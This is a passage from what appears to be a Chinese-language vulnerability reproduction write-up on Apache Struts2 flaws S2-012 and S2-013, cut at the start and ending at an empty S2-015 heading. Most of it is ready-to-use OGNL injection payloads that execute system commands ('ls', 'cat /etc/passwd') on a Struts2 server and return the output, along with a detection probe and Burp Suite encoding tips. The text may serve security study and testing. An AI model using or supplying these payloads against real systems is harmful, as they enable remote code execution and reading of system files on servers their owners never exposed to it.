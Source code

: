 ##### 命令执行

执行ls

```
/ajax/example5.action?age=12313&amp;name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&amp;z[(name)(%27meh%27)]

```

#### S2-012

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/17fc3a015f8314722230f041162d58ad.jpeg"/>

##### 命令执行

cat /etc/passwd

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```

burpsuite中要进行URL编码<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5fde45649076e7aecef9f943169e9243.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/15c5cbceb0d5b194082fddf1e3af9281.jpeg"/>

#### S2-013

s:url和s:a标记都提供includeparams属性。该属性的主要作用域是了解包含或不包含http://request参数的内容。INCLUDEParams的允许值为：none-在URL中不包含任何参数（默认），get-仅在URL中包含get参数，all-在URL中同时包含get和post参数。当INCLUDEParams被赋予了以上参数，struts会进行OGNL解析<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/9fe14566459e503cc196f2326ea55690.jpeg"/>

##### 检测

还是用${1+1}编码<br/> `link.action?a=%24%7B1%2B1%7D`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/77ccdd70f537aeca788e79c9adf52a65.jpeg"/><br/> 1+1=2，还是很合理。

##### 命令执行

cat /etc/passwd<br/> payload:

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('cat /etc/passwd').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B 50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D

```

#### S2-015
